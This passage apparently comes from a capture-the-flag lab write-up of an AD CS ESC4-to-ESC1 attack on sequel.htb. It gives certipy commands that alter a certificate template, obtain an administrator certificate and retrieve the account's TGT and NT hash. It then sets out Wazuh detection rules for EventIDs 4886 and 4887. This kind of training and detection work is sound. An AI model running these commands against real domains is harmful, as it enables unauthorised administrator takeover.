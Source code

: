 Certipy is then used with the `ca_svc` account:

```bash
certipy find -u 'ca_svc@sequel.htb' -p 'P@ssword1' -dc-ip $IP -vulnerable -stdout
```

The output it provides indicates an ESC4 issue and specifically that "'Cert Publishers' has dangerous permissions". This was also checked in BloodHound showing an attack path from the `ca_svc` account, to the "Cert Publishers" group, and then to the "DunderMifflinAuthentication" template.

![image](https://i.postimg.cc/yxfdt1Fw/escape2-esc4.png){: width='1129' height='401'}

#### Privilege Escalation

With the ESC4 misconfiguration in mind a combination of commands[^4] with `certipy` allows a template modification, this allows an ESC1 attack to get a certificate as the `Administrator` account, and this is then used to get the TGT and NT hash for the account which was ultimately used via pass the hash techniques.

```bash
certipy template -dc-ip $IP -u ca_svc -p 'P@ssword1' -template DunderMifflinAuthentication -target dc01.sequel.htb -save-old
certipy req -ca sequel-DC01-CA -dc-ip $IP -u ca_svc -p 'P@ssword1' -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb
certipy auth -pfx administrator.pfx
```

![image](https://i.postimg.cc/ZKxQp9Tb/escape2-certipy.png){: width='1057' height='377'}

> __Detect:__ With Security event logs being sent to Wazuh a pair of EventIDs log when AD CS gets a certificate request and issues a certificate, 4886 and 4887:
{: .prompt-tip}

To get rules to trigger in Wazuh for these events first I used a `certutil` command noted by the Locksmith tool[^5]:

```
certutil.exe -config 'DC01.sequel.htb\sequel-DC01-CA' -setreg CA\AuditFilter 127
```

Then from the Group Policy Editor `gpedit.msc` I enabled the Audit Policy's "Audit object access" settings for both Success and Failure events, followed by restarting the service:

![image](https://i.postimg.cc/gJWyQyzn/escape2-audit-policy.png){: width='496' height='436'}

```powershell
Restart-Service -Name CertSvc
```

These two rules were then created in Wazuh for each of the EventIDs. The details in the logged events indicate which template is involved along with the Subject Alternative Name (SAN), in this case showing that the `administrator` UPN was specified:

```
<group name="windows,adcs">
  <rule id="190004" level="9">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID" type="pcre2">^4886$</field>
    <description>Possible AD CS tampering: Received a certificate request.</description>
  </rule>
</group>

<group name="windows,adcs">
  <rule id="190005" level="9">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID" type="pcre2">^4887$</field>
    <description>Possible AD CS tampering: Approved a certificate request and issued a certificate.</description>
  </rule>
</group>
```

[^1]: [https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
[^2]: [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
[^3]: [https://uc3.cdlib.org/2012/02/16/whats-the-deal-with-xlsx/](https://uc3.cdlib.org/2012/02/16/whats-the-deal-with-xlsx/)
[^4]: [https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc4/](https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc4/)
[^5]: [https://github.com/jakehildreth/Locksmith/blob/main/Invoke-Locksmith.ps1#L183](https://github.com/jakehildreth/Locksmith/blob/main/Invoke-Locksmith.ps1#L183)
[^6]: [https://github.com/jakehildreth/Locksmith](https://github.com/jakehildreth/Locksmith)
[^7]: [https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)
[^8]: [https://github.com/jakehildreth/Locksmith/blob/main/Invoke-Locksmith.ps1#L1008C19-L1008C34](https://github.com/jakehildreth/Locksmith/blob/main/Invoke-Locksmith.ps1#L1008C19-L1008C34)
[^9]: [https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers#well-known-sids](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers#well-known-sids)
[^10]: [https://devblogs.microsoft.com/powershell-community/understanding-get-acl-and-ad-drive-output/#reading-active-directory-permission-using-get-acl](https://devblogs.microsoft.com/powershell-community/understanding-get-acl-and-ad-drive-output/#reading-active-directory-permission-using-get-acl)